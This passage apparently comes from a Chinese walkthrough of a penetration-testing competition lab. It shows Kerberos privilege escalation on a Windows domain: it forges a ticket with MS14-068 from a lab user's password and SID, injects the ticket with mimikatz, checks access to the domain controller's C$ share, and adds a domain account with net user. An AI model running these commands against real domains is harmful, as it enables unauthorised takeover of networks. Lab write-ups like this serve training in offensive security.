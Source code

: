 权限不足，将`Win10_tools`主机`C:\Users\Administrator\AppData\Local\Rolan\Intranet`目录下的`MS14-068.exe`文件和`mimikatz.exe`文件复制粘贴到`192.168.14.51`的远程桌面中：

![image-20221110152935005336-1669009456641593.png](img/典型企业生产环境渗透赛 Local.assets/55c77d672937f20e76b679128a167375.png)

查看当前用户SID：

```
whoami /user
```

![image-20211114184555272621-1669009457794628.png](img/典型企业生产环境渗透赛 Local.assets/3c565d0ce02fdbf1093ee2b0b14008df.png)

使用提权工具进行提权：

```
cd Desktop  //进入工具所在目录

MS14-068.exe -u LL@cyber123.com -p Llyoyo123# -s S-1-5-21-2718660907-658632824-2072795563-1104 -d scene.cyber123.com  //生成凭据
```

![image-20211114185513611380-1669009458970314.png](img/典型企业生产环境渗透赛 Local.assets/fe0430b3829ecc6fcbe18a149a99bfaf.png)

生成的凭证保存在桌面：

![image-20221111102113815513-1669009460107628.png](img/典型企业生产环境渗透赛 Local.assets/9e4fc9858605dc13cbb094dc7d86e7c6.png)

双击`mimikatz.exe`文件运行工具，清空凭证：

```
kerberos::purge
```

![image-20211114190736167734-1669009461482480.png](img/典型企业生产环境渗透赛 Local.assets/48cdae33fa4c5336964a588190a12a14.png)

通过拖拽文件的方式导入伪造的凭证：

```
kerberos::ptc 凭证的绝对路径
```

![image-20221110153402541062-1669009462652846.png](img/典型企业生产环境渗透赛 Local.assets/6b27c185452bd60d492f6482b5971213.png)

![image-20221110153417058569-1669009463802079.png](img/典型企业生产环境渗透赛 Local.assets/fe5432654f0204cce5768e81f352d230.png)

在命令行中再次执行`dir \\scene.cyber123.com\c$`，出现回显表示提权成功：

![image-20211114191340005032-1669009464978070.png](img/典型企业生产环境渗透赛 Local.assets/56a5e0b0a4fc0be1c94267320740854d.png)

添加域管用户，命令行中执行命令：

```
net user aaa Qwer1234... /add /domain  //创建域管用户
```

![image-20211114191706988293-1669009466084910.png](img/典型企业生产环境渗透赛 Local.assets/c2df41fac313db8a04152e512a3fd3ce.png)

